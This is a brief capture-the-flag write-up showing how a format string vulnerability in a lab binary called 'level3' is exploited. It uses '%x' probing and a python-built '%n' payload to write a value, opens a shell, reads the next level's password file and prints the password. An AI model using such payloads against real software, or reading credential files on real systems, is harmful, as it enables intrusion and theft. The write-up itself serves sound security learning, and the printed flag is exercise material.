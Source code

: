 We can write in a buffer that will be printed with `printf`, and we know about format string exploit. \
Here are the first few steps to exploit a format string outside of gdb: \
```shell
$ # find where our buffer is written in memory:
$ echo "AAAA %x %x %x %x" | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141

$ # we know we need to write '64' at address '0x804888c', so we can use the `%n` modifier with 64 bytes before in the string to write to the address:
$ python -c 'print "\x8c\x88\x04\x08" + "\x90" * 60 + "%4$n"' > /tmp/exploit
                    |_ write 4b (addr)   |_ write 60 bytes

$ # the binary will execute system if the address 0x804888c contains "64", as we need to pipe into the binary we still need to keep stdin open to inject commands or the shell will exit prematurely:
$ cat /tmp/exploit - | ./level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

